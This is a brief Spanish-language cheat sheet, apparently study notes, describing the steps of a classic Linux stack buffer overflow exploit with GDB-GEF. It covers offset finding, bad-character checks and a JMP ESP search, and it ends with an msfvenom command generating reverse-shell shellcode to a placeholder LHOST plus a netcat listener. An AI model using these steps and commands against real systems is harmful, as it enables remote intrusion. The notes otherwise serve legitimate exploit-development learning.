 # Estructura básica del BoF en Linux
---
_Esta es una estructura básica de los pasos a seguir en Linux a la hora de explotar un Buffer Overflow básico y de los antiguos, para ello utilizaremos el programa "GDB-GEF"._

1. Crear un padding muy grande y ver si hay buffer overflow. Para ello:
 - Lanzar el comando: run
2. Tomar el control de EIP para ello:
 - Utilizaremos el comando "pattern create xxxx"
 - Ver EIP y ver que elementos tiene.
 - Hacer una resta a mano comparando donde empieza y donde acaba // utilizar comandos:
   - pattern offset "dirección EIP"
3. Una vez tenemos el control de EIP, sacaremos los badchars.
 - Crearemos una cadena con todos los bytes posibles con el comando --> bytearray
 - Ejecutamos de nuevo el programa.
 - Lo vemos manualmente: Hexdump $ESP 0x100 --> Vemos cuando se rompe la cadena de bytearray
 - Con comando: bincompare -f /home/..../bytearray.bin -a "ADDRESS" --> Nos indica los badchars
 - Volvemos a generar el bytearray eliminando los badchars y volvemos a empezar hasta que no quede ninguna.
4. Buscaremos en el programa un JMP ESP que no tenga ASLR.
 -  ropper --search "jmp esp"
 - Comprobamos que la direccion que seleccionamos no contiene badchars.
 - La colocamos en la direccion de retorno, que es EIP, el cual hemos controlado anteriormente.
5. Generar o buscar una shellcode/reverse shellcode.
````
msfvenom -p linux/shell/reverse_tcp LHOST=192.168.x.x LPORT=4444 EXITFUNC=thread -b '\x00\x0a\x09\x1a' -a x86 --platform linux -f python -v shellcode_reverse_shell
--smallest
````
6. Nos ponemos a la escucha:
````
 nc -lvnp 4444 // use exploit/multi/handler
````
7. Ejecutamos y... **FIN**
